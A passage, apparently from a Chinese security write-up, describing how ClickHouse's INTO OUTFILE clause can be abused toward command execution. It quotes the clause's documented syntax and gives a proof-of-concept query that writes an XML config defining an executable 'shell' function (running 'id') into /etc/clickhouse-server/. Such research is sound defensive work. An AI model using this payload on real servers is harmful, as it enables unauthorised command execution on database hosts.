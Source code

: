 ![图片.png](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTrRqb9icRaLQy4eicmuN2fcP4icVUicaKrtcibU3GZ3DGsS6VHnrrTt1rEiatZRj6bosib9PLCJPQ9dCGwZA/640?wx_fmt=png&from=appmsg "")  
### 0x05 INTO OUTFILE （输出的文件是到客户端）  
  
我门肯定是希望结局sql语句来完成 命令执行的，所以我们可以借助INTO OUTFILE 来创建 xml 以及 sh or python 脚本。所以这只能本地命令执行 有点鸡肋。  
  
https://clickhouse.com/docs/en/sql-reference/statements/select/into-outfile  
  
INTO OUTFILE  
 子句将 SELECT  
 查询的结果重定向到客户端的一个文件中。  
  
压缩文件受支持。压缩类型通过文件名扩展名检测（默认使用模式 'auto'  
 ）。或者可以在 COMPRESSION  
 子句中显式指定。可以在 LEVEL  
 子句中指定特定压缩类型的压缩级别。  
  
**语法**  
```
SELECT<expr_list>INTO OUTFILE file_name [AND STDOUT] [APPEND |TRUNCATE] [COMPRESSION type [LEVEL level]]
```  
  
file_name  
 和type  
是字符串字面量。支持的压缩类型有：'none'  
，'gzip'  
，'deflate'  
，'br'  
，'xz'  
，'zstd'  
，'lz4'  
，'bz2'  
 。  
  
level  
 是一个数值字面量。支持的后续范围的正整数包括： 1-12  
 用于 lz4  
 类型， 1-22  
 用于 zstd  
 类型，以及 1-9  
 用于其他压缩类型。  
  
Poc.xml  
```
select '<functions>    <function>        <type>executable</type>        <name>shell</name>        <return_type>String</return_type>        <format>raw</format>        <command>id</command>        <execute_direct>0</execute_direct>        <lifetime>1</lifetime>    </function></functions>' into outfile '/etc/clickhouse-server/shell_function.xml' TRUNCATE format raw
```  
  
可以看到写入后正常执行。  
  
![图片.png](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTrRqb9icRaLQy4eicmuN2fcP4o9AgcHTeP8zBlI8Ojesk6L6BnCjpBoaBmGf7m7IKM4uQT22LT6GY1A/640?wx_fmt=png&from=appmsg "")  
  
  